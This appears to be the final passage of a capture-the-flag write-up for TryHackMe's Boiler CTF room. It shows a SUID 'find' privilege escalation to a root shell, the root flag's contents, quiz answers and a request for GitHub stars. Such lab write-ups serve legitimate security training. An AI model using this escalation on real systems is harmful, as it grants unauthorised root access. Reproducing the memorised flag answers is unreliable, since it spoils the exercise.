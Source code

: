 ```shell-session
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls -la
total 12
drwx------  2 root root 4096 Aug 22  2019 .
drwxr-xr-x 22 root root 4096 Aug 22  2019 ..
-rw-r--r--  1 root root   29 Aug 21  2019 root.txt
# cat root.txt
It wasn't that hard, was it?
```

> What did you exploit to get the privileged user?
> 
> Answer: `find`


> root.txt
> 
> Answer: `It wasn't that hard, was it?`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Boiler CTF by MrSeth6797](https://tryhackme.com/room/boilerctf2)
